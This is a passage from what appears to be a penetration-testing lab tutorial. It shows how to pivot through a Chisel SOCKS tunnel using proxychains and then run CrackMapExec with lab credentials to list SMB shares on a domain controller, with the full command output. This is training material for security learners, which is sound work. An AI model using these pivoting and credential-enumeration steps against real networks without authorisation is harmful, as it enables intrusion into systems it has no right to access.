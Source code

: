 ### **Check Listening Port**

```shell-session
$ netstat -lnpt | grep 1080

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:1080          0.0.0.0:*               LISTEN      446306/./chisel
```

5. We need to configure `proxychains` to use the Chisel default port TCP 1080. We need to make sure to include `socks5 127.0.0.1 1080` in the ProxyList section of the configuration file as follows:

### **Configure Proxychains**

```shell-session
$ cat /etc/proxychains.conf

<SNIP>

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

6. We can now use CrackMapExec through Proxychains to reach the IP 172.16.1.10:

### **Testing CrackMapExec via Proxychains**

```shell-session
$ proxychains crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! --shares

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.10:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.10:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.10:135  ...  OK
SMB         172.16.1.10     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.10:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.10:445  ...  OK
SMB         172.16.1.10     445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         172.16.1.10     445    DC01             [+] Enumerated shares
SMB         172.16.1.10     445    DC01             Share           Permissions     Remark
SMB         172.16.1.10     445    DC01             -----           -----------     ------
SMB         172.16.1.10     445    DC01             ADMIN$          READ            Remote Admin
SMB         172.16.1.10     445    DC01             C$              READ,WRITE      Default share
SMB         172.16.1.10     445    DC01             carlos                          
SMB         172.16.1.10     445    DC01             D$              READ,WRITE      Default share
SMB         172.16.1.10     445    DC01             david                           
SMB         172.16.1.10     445    DC01             IPC$            READ            Remote IPC
SMB         172.16.1.10     445    DC01             IT              READ,WRITE      
SMB         172.16.1.10     445    DC01             john                            
SMB         172.16.1.10     445    DC01             julio                           
SMB         172.16.1.10     445    DC01             linux01         READ,WRITE      
SMB         172.16.1.10     445    DC01             NETLOGON        READ            Logon server share 
SMB         172.16.1.10     445    DC01             svc_workstations                 
SMB         172.16.1.10     445    DC01             SYSVOL          READ            Logon server share
```
